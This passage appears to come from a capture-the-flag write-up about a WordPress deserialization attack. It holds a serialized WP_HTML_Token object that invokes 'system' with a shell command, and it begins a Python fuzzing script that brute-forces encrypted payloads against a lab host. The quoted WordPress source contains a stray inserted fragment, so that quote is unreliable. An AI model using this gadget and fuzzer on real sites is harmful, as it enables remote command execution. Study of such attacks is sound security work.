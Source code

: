 This script produces a wordlist file listing all possible payloads and md5 keys in this format : 
`PAYLOAD MD5_KEY`

In the script, this serialized object is used : `O:13:"WP_HTML_Token":2:{s:10:"on_destroy";s:6:"system";s:13:"bookmark_name";s:6:"ls -la";}` because if the encryption key is correct and the object is deserialized it will raise an exception.

`WP_HTML_Token` is a wp-core class that if it is deserialized raises an exception and the response will have status code 500


`/WordPress-6.7.1/wp-includes/html-api/class-wp-html-token.php:107`
```php

	/**
	 * Destructor.
	 *
	 * @since 6.4.0
	 */
	public function __destruct() {
		if ( is_callable( $this->on_destroy ) ) {
			call_user_func( $this->on_destroy, $this->bookmark_name ); 'system','whoami'
		}
	}

	/**
	 * Wakeup magic method.
	 *
	 * @since 6.4.2
	 */
	public function __wakeup() {
		throw new \LogicException( __CLASS__ . ' should never be unserialized' );
	}

```

so we can use this error as a confirmation that the sent payload was encrypted correctly 

To fuzz the payloads I wrote another python script (but I think with tools like ffuf , wfuzz or hydra they can be much faster and perform much better )
This script reads the previously generated wordlist and sends GET requests until it finds the correct one that responds with status code 500

```python

import asyncio
import aiohttp
import urllib.parse

URL_TEMPLATE = "http://192.168.1.20:8080/biglietto/?sgnix=true&p={}"
HEADERS = {
    "Host": "192.168.1.20:8080",
    "Accept-Language": "it-IT,it;q=0.9",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br"
}

# Global event to stop the process in case of a 500 status code
stop_event = asyncio.Event()

# Variables for tracking progress
completed = 0
total_payload = 0
```